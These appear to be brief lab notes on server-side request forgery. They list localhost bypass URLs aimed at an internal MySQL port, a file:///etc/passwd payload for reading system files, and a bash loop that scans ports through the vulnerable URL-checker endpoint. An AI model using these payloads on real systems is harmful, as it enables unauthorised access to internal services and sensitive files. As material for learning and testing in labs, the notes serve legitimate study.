


SSRF
In this example, you are expected to put in a URL and the wesite will say if the site is up. If you test localhost:3306, you are trying to hit a MySQL DB behing the wesites firewall.
Possible Bypasses
http://127.0.0.1:3306http://localhost:3306
http://0.0.0.0:3306
http://[::]:3306http://:::3306Convert to Decimal:
https://gist.github.com/mzfr/fd9959bea8e7965d851871d09374bb72http://2130706433:3306
Things To Try
file:///etc/passwd
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery#fileEnumerate external ports:
for x in {1..65535};
do cmd=$(curl -so /dev/null http://10.10.146.104:8000/attack?url=http://2130706433:${x} -w '%{size_download}');
if [ $cmd != 1045 ]; then
echo "Open port: $x"
fi
done